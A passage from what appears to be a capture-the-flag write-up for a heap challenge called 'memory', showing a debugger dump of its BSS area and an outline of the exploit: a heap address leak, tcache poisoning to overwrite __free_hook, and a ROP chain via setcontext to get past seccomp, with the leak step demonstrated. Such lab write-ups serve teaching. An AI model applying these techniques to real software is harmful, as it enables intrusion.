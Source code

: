 The `BSS` area is as follows. Only `count` and `ptr` variables.  
```  
pwndbg> x/80gx 0x555555558000  
0x555555558000: 0x0000000000000000      0x0000555555558008  
0x555555558010: 0x0000000000000000      0x0000000000000000  
0x555555558020 <stdout@@GLIBC_2.2.5>:   0x00007ffff7f8c6a0
0x0000000000000000  
0x555555558030 <stdin@@GLIBC_2.2.5>:    0x00007ffff7f8b980
0x0000000000000000  
0x555555558040 <stderr@@GLIBC_2.2.5>:   0x00007ffff7f8c5c0
0x0000000000000000  
0x555555558050 <count>: 0x00005555555592a0      0x000055555555b330　　　<-
ptr変数(0x000055555555b330)  
0x555555558060: 0x0000000000000000      0x0000000000000000  
0x555555558070: 0x0000000000000000      0x0000000000000000  
```

## Solution:  
The points of Exploit are as follows.

* Heap address leaks are easy because they are not null-terminated with `dallocate()`.  
* We can easily get the libc address and rewrite the `__free_hook` by using `dwrite()` to replace the link in the `tcachebins`.  
* The `system` function cannot be used because the system call is restricted by `seccomp`.  
* We can use ROP by stacking heap memory using the the ROP gadget of `mov rdx, qword ptr [rdi + 8]; mov qword ptr [rsp], rax; call qword ptr [rdx + 0x20];` and the `setcontext` function.

The following is a brief description of the Exploit procedure.

For heap address leaks, we can `dallocate()` a 0x10 size chunk, write only
"\n" as data, and then call the `dview()` function to leak the top 7 bytes of
the heap address.  
```bash  
$ ./memory  
Memory can be easily accessed !  
1) read  
2) write  
3) allocate  
4) free  
5) view  
6) exit  
>> 3  
size:  
>> 16  
data:  
>>  
1) read  
2) write  
3) allocate  
4) free  
5) view  
6) exit  
>> 5

�UUUU　　<- Heap address leak  
```
